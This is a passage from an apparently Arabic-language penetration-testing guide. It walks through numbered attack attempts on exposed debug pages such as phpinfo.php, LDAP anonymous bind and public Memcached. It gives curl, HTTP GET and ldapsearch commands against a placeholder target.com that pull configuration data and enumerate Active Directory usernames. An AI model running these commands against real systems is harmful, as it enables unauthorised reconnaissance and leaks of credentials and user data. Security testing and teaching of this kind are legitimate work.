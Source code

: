 ### ⚙️ الفكرة:
بعض التطبيقات تعرض صفحات Debug مثل:

- `/phpinfo.php`
- `/debug.php`
- `/api/test`
- `/index_dev.php`

### 💥 الاستغلال:
```bash
curl http://target.com/phpinfo.php | grep 'define'
```

أو:
```http
GET /api/test?query=1 HTTP/1.1
Host: target.com
```

### 📌 النتيجة:
- كشف بيانات الاتصال.
- كشف معلومات داخلية.

---

# 🧪 المحاولة #10: LDAP Anonymous Bind Enabled

### ⚙️ الفكرة:
LDAP قد يسمح بتسجيل دخول بدون مصادقة (Anonymous Bind).

### 💥 الاستغلال:
```bash
ldapsearch -x -h target.com -b "dc=example,dc=com"
```

ثم استخدام فلتر:
```ldap
(&(objectClass=user)(sAMAccountName=*))
```

### 📌 النتيجة:
- الحصول على قائمة بأسماء المستخدمين.
- كشف بنية Active Directory.

---

# 🧪 المحاولة #11: Memcached Server Accessible Publicly

### ⚙️ الفكرة:
Memcached يعمل على المنفذ 11211 ويسمح بالوصول الخارجي بدون مصادقة.
